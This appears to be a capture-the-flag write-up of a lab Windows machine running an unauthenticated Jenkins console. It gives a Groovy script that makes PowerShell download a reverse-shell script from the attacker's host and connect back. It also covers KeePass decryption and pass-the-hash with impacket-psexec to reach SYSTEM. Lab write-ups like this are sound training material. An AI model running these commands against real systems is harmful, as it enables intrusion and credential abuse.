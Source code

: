 # Take Away
# Metadata
- Initial recon did not find anything useful. However, upon switching to wordlist `directory-list-2.3-medium.txt`, `feroxbuster` will identify a subdirectory  called `askjeeves` at `http://10.10.10.63:50000/askjeeves`.![[Pasted image 20240228133044.png]]
	- Upon further inspection, the URL is a page for managing `Jenkins` service. ![[Pasted image 20240228133141.png]]
	- https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security
	- If we navigate to `http://10.10.10.63:50000/askjeeves/configureSecurity/`, one can identify that `Jenkins` is configured to ` Anyone can do anything`. Hence, one can run `Groovy Script` without even login.![[Pasted image 20240228133449.png]]![[Pasted image 20240228133512.png]]
-  There is a `KeePass` database file under the path `C:\Users\kohsuke\Documents`.![[Pasted image 20240228134455.png]]
# Exploitation
- Navigate to `http://10.10.10.63:50000/askjeeves/script` and use the following script to catch a reverse shell call back.
	```
	def process = "powershell.exe -nop -w hidden -c iex(iwr http://10.10.14.23/Windows/nishang/Shells/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 443".execute()
	```
# PrivEsc
- Get and decrypt the `KeePass` file to gain `Administrator` NTLM hash.
- Run `impacket-psexec ./Administrator:@10.10.10.63 -hashes [LM:NTLM]` to get a shell as `nt authority\system`.